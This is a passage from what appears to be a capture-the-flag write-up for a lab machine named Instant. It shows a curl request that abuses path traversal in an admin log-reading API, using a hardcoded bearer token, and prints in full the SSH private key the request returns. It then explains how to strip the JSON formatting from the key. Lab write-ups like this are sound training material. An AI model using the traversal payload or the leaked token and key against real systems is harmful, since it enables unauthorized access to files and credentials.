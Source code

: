 This request provides an **SSH private key**.

```bash
curl -X GET "http://swagger-ui.instant.htb/api/v1/admin/read/log?log_file_name=..%2F.ssh%2Fid_rsa" -H  "accept: application/json" -H  "Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwicm9sZSI6IkFkbWluIiwid2FsSWQiOiJmMGVjYTZlNS03ODNhLTQ3MWQtOWQ4Zi0wMTYyY2JjOTAwZGIiLCJleHAiOjMzMjU5MzAzNjU2fQ.v0qyyAqDSgyoNFHU7MgRQcDA0Bw99_8AEXKGtWZ6rYA"
{"/home/shirohige/logs/../.ssh/id_rsa":["-----BEGIN OPENSSH PRIVATE KEY-----\n","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\n","-----END OPENSSH PRIVATE KEY-----\n"],"Status":201}
```
Once we have the SSH key, we notice that it contains characters such as `\n`, `,`, and `""`. To remove these, we copy only the SSH key without `"-----BEGIN OPENSSH PRIVATE KEY-----\n",` or `,"-----END OPENSSH PRIVATE KEY-----\n"],"Status":201}` like this.

```bash
```